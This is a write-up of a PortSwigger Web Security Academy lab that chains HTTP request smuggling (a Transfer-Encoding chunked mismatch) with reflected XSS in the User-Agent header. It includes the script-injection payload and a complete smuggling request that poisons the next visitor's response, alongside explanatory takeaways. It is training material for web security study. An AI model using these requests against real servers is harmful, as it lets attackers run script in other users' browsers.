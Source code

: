 #  Exploiting HTTP - request smuggling to deliver reflected XSS

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to deliver reflected XSS
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/c76cecbb6026af05cd93ecc7a616c391e40b73d135e309388f039ecf576fcd53?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-deliver-reflected-xss

## 🔍 Summary
This lab exploited **HTTP request smuggling** to deliver a **reflected XSS payload**. By abusing the mismatch in how the front-end and back-end servers handle `Transfer-Encoding: chunked`, an attacker could smuggle a request that injected a malicious `User-Agent` header. When the victim’s request was processed next, the response reflected the payload and executed `alert(1)`.

## 🛠 Steps to Solve
1. Visit a blog post, and send the request to **Burp Repeater**.
2. Observe that the comment form contains your `User-Agent` header in a hidden input
3. Inject an XSS payload into the User-Agent header and observe that it gets reflected:
   ```sh
   "/><script>alert(1)</script>
   ```
4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 150
   Transfer-Encoding: chunked

   0  

   GET /post?postId=5 HTTP/1.1
   User-Agent: a"/><script>alert(1)</script>
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 5

   x=1
   ```

## 📖 Key Takeaways
- **Chaining vulnerabilities**: Request smuggling can be combined with reflected XSS to affect other users.
- **Front-end vs back-end parsing**: Smuggling works because the two servers disagree on request boundaries.
- **Transfer-Encoding abuse**: Using `chunked` encoding with a `0` chunk enables injecting an extra request.
- **Broader lesson**: Request smuggling isn’t just for hijacking sessions; it can be a **delivery vector for other exploits** like XSS.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ed1cc347-7046-4163-96cc-3c364782717b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e40122f3-63b9-4bc5-b697-ccd8edd1c182" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9cafe814-a994-4772-a3b3-eb7627e2a707" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8467c31a-768a-49ea-88b4-0c1409861579" />
